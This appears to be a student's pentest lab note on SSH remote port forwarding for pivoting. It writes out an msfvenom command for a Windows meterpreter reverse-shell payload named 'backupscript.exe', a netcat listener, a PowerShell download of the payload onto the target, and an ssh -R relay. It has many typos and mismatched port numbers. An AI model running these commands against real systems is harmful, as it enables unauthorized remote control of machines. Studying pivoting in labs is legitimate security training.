

# Remote Port Forwording - SSH

## Introduction



In a scenario where we got the access to target `host1` and perform dynamic port forwarding to connect to RDP running on the `host2`, if we try to transfer files, use exploits, or even performing a reverse shell, these teqniques won't work since the `host2` doesn't know the attack host.

To performed the mentioned actions/exploit, we need a connection to a system that could communicate bot to us and the target host, which in our example would be `host1` .

**Creating a Windows Payload with msfvenom**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

**Starting the listener**

```bash
nc -lvnp 8080
```

After configureing the listener and creating the payload, we can move our payload to the food hold system using any mehtod of choice.

**Transferring Payload to Pivot Host**

```bash
scp backupscript.exe ubuntu@<PivotHostIP>:~/
```

**Starting Python3 Webserver on Foothold/Pivot Host**

```shell-session
python3 -m http.server 8123
```

**Downloading Payload at Target (host2)**

```powershell-session
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

We will use `SSH remote port forwarding` to forward our msfconsole's listener service on port 8000 to the Ubuntu server's (Foot hold host1) port 8080

```bash
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

* \-vN -> verbose and not prompt login shell.
* \-R -> Ask server to listen on \<ipAddressofTarget>:8080

